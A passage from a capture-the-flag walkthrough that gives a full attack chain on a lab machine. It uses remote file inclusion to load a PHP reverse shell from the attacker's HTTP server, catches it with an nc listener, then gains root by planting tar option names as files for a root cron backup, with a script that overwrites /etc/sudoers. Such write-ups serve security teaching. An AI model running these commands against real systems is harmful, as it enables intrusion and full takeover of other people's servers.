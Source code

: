```bash
ls
shell.php

sudo python3 -m http.server 80
```

- Then, start a listener `rlwrap nc -nvlp 3131`

- Navigate to `http[:]//ip/{redacted}/administrator/alerts/alertConfigField.php?urlConfig=http[:]//yourIP:80/shell.php

- Stabilise the shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

<CTRL + Z>
stty raw -echo; fg
```

```bash
www-data@skynet:/$ whoami
www-data
```

- The first flag is in `/home/milesdyson/user.txt`

- Here is also a `backups` directory

```bash
ls -l backups/

-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4679680 Nov 25 07:48 backup.tgz
```

```bash
www-data@skynet:/home/milesdyson$ cat backups/backup.sh 

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- There is also a `cronjob` in `/etc/crontab` that will run the `backup.sh` file as root.

- We see that the last command is `tar cf` and it'll run as root. `tar` can be used to escalate privileges if given acces to by spawning a shell

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

- What are we going to do, is to create the additional parameters as names in the `/var/www/html` directory, where it'll read files from, as root.

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > magic.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh magic.sh"
echo "/var/www/html"  > --checkpoint=1
```
